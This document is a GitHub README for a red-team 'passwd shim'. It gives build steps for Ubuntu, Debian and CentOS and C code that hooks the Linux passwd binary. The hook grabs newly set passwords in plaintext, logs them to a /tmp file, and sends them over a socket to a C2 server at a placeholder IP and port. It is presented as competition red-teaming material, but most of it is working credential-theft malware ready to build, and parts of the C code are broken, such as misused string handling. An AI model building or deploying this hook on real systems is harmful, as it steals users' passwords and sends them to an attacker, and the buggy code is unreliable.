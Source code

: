 # Retreiver Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a C2. It will also write to a file in the /tmp directory as a failover method. 

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04 <br />  
Centos - 8 <br />  
Debian - 11 <br />  

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.


## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. clone shadow git
2. sudo apt-get build-dep shadow
3. run ./autogen.sh
4. Add Hook (See Hooking passwd.c)
5. sudo make all
6. sudo chmod 4755 passwd

#### Debian - 11
1. clone shadow git
2. sudo apt-get build-dep shadow
3. run ./autogen.sh
4. Add Hook (See Hooking passwd.c)
5. sudo make all
6. sudo chmod 4755 passwd

#### CentOS - 8
1. clone shadow git
2. yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install
3. yum install -y autoconf gettext-devel automake 
4. dnf group install "Development Tools"
5. run ./autogen.sh --without-selinux
6. Add Hook (See Hooking passwd.c)
7. sudo make all
6. sudo chmod 4755 passwd

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to


## Hooking the passwd.c file

#### At the Top
Imports needed 

    #include <sys/socket.h> 
    #include <arpa/inet.h> 
    #include <unistd.h> 
    #include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. 

    int writetofile (char *password){

        // Get UID
        uid_t uid = geteuid();
        struct passwd * pw = getpwuid(uid);
        
        // Create File + Variables
        FILE * fptr;
        fptr = fopen("/tmp/18432443.tmp", "a"); // Remove for ultra sneak
        char * user;
        char * msg;
        char * msg2;
        char * colon;

        // Write Shit
        if (pw) {
            user = pw->pw_name;
        }
        else {
            user = "unknown";
        }

        if (fptr != NULL) {

            fprintf(fptr, "%s:%s\n", name, password);
            
            // Send Shit //
            // Make Socket
            int sock = 0, valread;
            struct sockaddr_in serv_addr;
            
            // Build String
            strcpy(user, name);
            msg = ("%s", password);
            msg2 = ("%s:", user);
            colon = ':';
            strncat(msg2, &colon, 1);
            strcat(msg2, msg);

            char buffer[1024] = {0};
            fclose(fptr);

            // Error Handling
            if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
                // printf("\n Socket creation error \n");
                return -1;
            }

            serv_addr.sin_family = AF_INET;
            serv_addr.sin_port = htons(PORT);
            
            struct timeval timeout;
            timeout.tv_sec = 3;
            timeout.tv_usec = 0;

            if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
                // puts("Setsockopt failed\n");
                return -1;
            }
            
            if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
                // puts("setsockopt failed\n");
            }


            // Error Handling
            if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
                // puts("\nInvalid address/ Address not supported \n");
                return -1;
            }
            if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
                return -1;
            }

            // Send Message
            send(sock , msg2 , strlen(msg2) , 0 );
            return 0;
        }

        return 0;
    }
